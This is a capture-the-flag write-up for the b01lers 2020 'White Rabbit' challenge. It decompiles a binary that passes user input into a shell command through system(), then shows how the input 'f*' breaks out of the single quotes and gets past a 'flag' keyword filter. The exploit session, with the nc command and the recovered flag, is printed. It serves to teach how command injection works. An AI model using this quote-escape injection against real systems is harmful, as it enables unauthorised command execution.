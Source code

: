 # b01lers bootcamp CTF 2020

## White Rabbit

> 100
>
> Follow the white rabbit...
>
> `nc chal.ctf.b01lers.com 1013`
>
> [whiterabbit](whiterabbit)

Tags: _x86-64_ _unsanitized-input_ _linux_ _bash_


## Summary

Fool a simple check with an unsanitized string.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nice!  All mitigations in place.


### Decompile with Ghidra

```c
undefined8 FUN_00101249(void)
{
  char *pcVar1;
  long in_FS_OFFSET;
  char local_158 [64];
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("Follow the white rabbit.");
  printf("Path to follow: ");
  __isoc99_scanf(&DAT_00102032,local_158);
  pcVar1 = strstr(local_158,"flag");
  if (pcVar1 != (char *)0x0) {
    puts("No printing the flag.");
    exit(0);
  }
  sprintf(local_118,"[ -f \'%1$s\' ] && cat \'%1$s\' || echo File does not exist",local_158);
  system(local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

`system` just executes `[ -f 'yourinput' ] && cat 'yourinput' || echo File does not exist`.

`yourinput` cannot have `flag` in it, and the single quotes prevent shell expansion, e.g. trying to use `f*`.

Since nothing is sanitizing the input we can just close the single quote to score an expansion and get the flag.  `'f*'` will do the trick, now `system` will execute:

```bash
[ -f ''f*'' ] && cat ''f*'' || echo File does not exist
```


### Exploit

```bash
# nc chal.ctf.b01lers.com 1013
Follow the white rabbit.
Path to follow: 'f*'
flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}
```